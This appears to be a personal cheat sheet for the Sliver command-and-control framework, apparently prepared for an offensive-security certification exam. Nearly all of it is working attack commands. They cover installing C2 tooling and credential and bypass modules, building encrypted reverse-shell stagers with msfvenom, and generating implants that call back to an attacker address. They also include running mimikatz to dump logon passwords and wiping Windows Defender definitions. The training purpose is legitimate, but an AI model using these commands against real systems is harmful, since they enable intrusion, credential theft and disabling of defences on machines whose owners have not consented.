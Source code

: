 # Install Guide:

- https://bishopfox.com/blog/passing-the-osep-exam-using-sliver

- Run the following command, sliver install complete
```bash
curl https://sliver.sh/install|sudo bash 
systemctl start sliver
systemctl enable sliver
```

- Run the following to install tooling:
```bash
sliver
armory install cs-remote-ops-bofs
armory install kerberos
armory install situational-awareness
armory install windows-bypass
armory install windows-credentials
armory install windows-pivot
armory install .net-execute
armory install .net-recon
armory install .net-pivot
armory install cs-remote-ops-bofs
armory install c2-tool-collection
```


# Stagers


```bash
# Set -a 386 for word macros
profiles new --mtls ip:443 --format shellcode win-shellcode

mtls -l 443

stage-listener --url http://ip:8443 --profile win-shellcode --prepend-size

generate stager --lhost ip --lport 8443 --protocol http 

# the above will likely not work so try the following:
# Adjust the format as needed, common formats: exe, raw, csharp, vbapplication. x86 for macros
msfvenom -a x64 -p windows/x64/custom/reverse_winhttp LHOST=tun0 LPORT=8443 LURI=/payload.woff -f exe -o sliverstage.exe EXITFUNC=thread


# Use this with hollowghost
msfvenom -p windows/x64/custom/reverse_winhttp LHOST=tun0 LPORT=8443 EXITFUNC=thread LURI=/payload.woff -f csharp --encrypt xor --encrypt-key z -i 20 | tr -d '\n\r'
```

# Generating malware
```bash

# DLL
generate -e -f shared -m 192.168.45.249:443 -R

# executable
generate  -e -f exe -m 192.168.45.249:443 

# For beacons add `beacon` at the beginning and `-S` for timeout and `-J` for jitter

# Generate shellcode to execute in sliver process, be sure to upload a session to execute it.
donut /var/www/html/bin/PrintSpoofer64.exe -a 2 -b 2 -o /tmp/payload.bin -p '-c c:\windows\tasks\sph.exe'
```

# Executing Commands

# Sideloading tools
```
sideload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```

# Nuke defender
```
execute -o cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```